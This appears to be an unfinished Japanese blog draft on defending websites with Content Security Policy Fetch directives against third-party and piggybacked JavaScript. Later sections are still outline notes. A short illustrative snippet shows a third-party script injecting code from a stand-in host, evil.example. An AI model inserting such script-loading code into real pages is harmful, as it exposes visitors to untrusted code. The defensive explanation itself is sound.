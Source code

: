 # CSP（Content Security Policy）Fetch ディレクティブ活用の現実解

こんにちは、広告エンジニア + 安全確保支援士の中山です。

この記事では Content Security Policy（以下 CSP）の Fetch ディレクティブを活用したセキュリティー強化の取り組みについて述べたいと思います。

## CSP の Fetch ディレクティブとは

詳しい仕様は [W3C を参照](https://www.w3.org/TR/CSP3/) 頂ければと思いますが

```
Content-Security-Policy: script-src 'self'
```

のような応答ヘッダや

```
<meta http-equiv="Content-Security-Policy" content="script-src 'self'" />
```

のような META 要素をコンテンに記載することで、Web Application のサブリソースの読み込みを制限することができ、以下のようなセキュリティー対策となります。

- XSS リスクの軽減
- ある 3rd-party JavaScript から piggyback で読み込まれる意図しない 3rd-party JavaScript の実行抑制
- 外部ドメインへの意図しないデータ転送の抑制

## メディアのセキュリティー課題と対策

Web Application のセキュリティー対策と CSP Fetch ディレクティブの関係性についてもう少し詳しく述べたいと思います。

Web Application が 3rd-party JavaScript（例えば広告タグや Web 解析ツール、SNS 連携機能等）を読み込むとき、もし 3rd-party に悪意があったり、悪意はなくとも別な攻撃者に改変されていた場合、Web Application 上に表示されるデータが盗まれたり [フィッシングサイトに誘導](https://blog.techscore.com/entry/2022/08/24/150000) さてしまったり、といったリスクが発生します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec01.png' />

こうしたリスクには Same Origin Policy を利用して 3rd-party JavaScript が実行されるドメインを分離する対策が有効です。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec02.png' />

ただし 3rd-party JavaScript がその目的を達成するために Web Application の DOM にアクセスする必要がある場合（例えば広告のビューアビリティー計測など）、ドメインを分離する対策は採用できません。とはいえ、信頼できる安全な 3rd-party JavaScript ならば問題はないでしょう。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec03.png' />

ところが、ある事業者の 3rd-party JavaScript から別な事業者の 3rd-party JavaScript が読み込まれるケースも存在します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec04.png' />

例えば Web Application が以下のマークアップを含み

```
<script src='https://hoge.example/hoge.js'></script>
```

さらに hoge.js が以下のようなコードを含む場合に evil.js が読み込まれます。

```
let script = document.createElement('SCRIPT');
script.src = 'https://evil.example/evil.js';
document.getElementsByTagName('SCRIPT').item(0).parentNode.appendChild(script);
```

こうした 3rd-party JavaScript 読み込みが複数回実行されることもあり、そうなるともはや安全性の確認は困難です。行儀の悪い事業者の 3rd-party JavaScript がコンテンツ情報を勝手に収集している … なんてこともあるかもしれません。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec05.png' />

このような場合に CSP の Fetch ディレクティブを使うことで、ホワイトリストで許可していないサブリソースの読み込みを制限することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec06.png' />

## CSP による対策と次の課題

Same Origin Policy と

一方でメディアサービスなどの Web Application の場合は多くの 3rd-party JavaScript を導入しています。導入を把握している 3rd-party JavaScript の範囲ならば管理することは可能かもしれませんが、


例えば総務省の

その全ての安全性を確認することは現実的ではないかもしれません。


★例の知らない間に 90 個のタグとか（どこかの引用）

★それを CSP の Fetch ディレクティブで対策
★絵で示す
★ところが 3rd-party ツールの場合のホワイトリスト管理の難しさ

## 現実解の模索

★ティアを分けた対応（ブロック + サンプリングレポートと発見的統制 + 受容）
★イシューととりうる HOW のマトリクス


ゼロリスク = 違反時の停止
	インライン
		とめたいなら nonce
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		読み込むサブリソースを全てホワイトリスト登録。ただし 3p スクリプトが動作不全
		チェックしないなら strict-dynamic でいい
発見的統制 = 違反時のレポート
	インライン
		レポートしたいなら nonce★XSS のケースのレポートを見てみる
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		自ドメイン以外をレポートで発見的統制

★これ AI にも聞いてみる

## メディアでのティア 2 実験と今後の運用

★TBD
★定期的にレポートを出しサービスの技術管掌担当にチェックしてもらう

## その他考察

★Proxy とサンプリング
★TM での CSP 配信検討と
★nonce 面倒
★まとめとして（AI 先生に言われたような内容で）セキュリティー強化を




